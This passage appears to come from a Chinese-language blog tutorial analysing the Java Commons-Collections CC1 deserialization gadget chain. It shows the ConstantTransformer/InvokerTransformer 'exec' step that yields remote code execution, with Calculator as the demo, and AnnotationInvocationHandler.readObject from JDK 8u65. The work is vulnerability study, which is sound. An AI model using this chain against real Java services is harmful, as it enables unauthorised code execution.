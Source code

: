 此时的object是我们传入的新value，就是个随便的字符串对象，而此时的`iTransformers[i]`是我们前面传入的数组的第一个元素，也就是`ConstantTransformer(Runtime.getRuntime())`，这里就调用了他的transform函数，不管输入，直接返回之前存在里面的对象

```java
public Object transform(Object input) {
		return this.iConstant;
}
```

那么此时的object就被赋值为Runtime对象了，然后进入下一层循环，此时`iTransformers[i]`变成了之前定义的数组的第二个元素

```java
InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
```

把Runtime对象传入，执行他的transform函数，完成RCE

![image-20220929194924740](https://tuchuang.huamang.xyz/img/image-20220929194924740.png)

## CC1

前面理解了p牛所做的简易版的CC链，现在就开始进行真正的CC链的分析了

在前面的demo中，我们手动进行了`outerMap.put("test", "xxxx");`去触发的漏洞，但是正常环境中，我们进行反序列化的时候如何触发字典的插入操作呢，我们就得去找到一个类，他重写的`readObject`进行反序列化的时候会执行这样的写入操作，这个类就是`sun.reflect.annotation.AnnotationInvocationHandler`

### AnnotationInvocationHandler

注意我们分析的是**8u71以前**的代码，这里我jdk用的是**8u65**，我们直奔他的readObject方法

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```
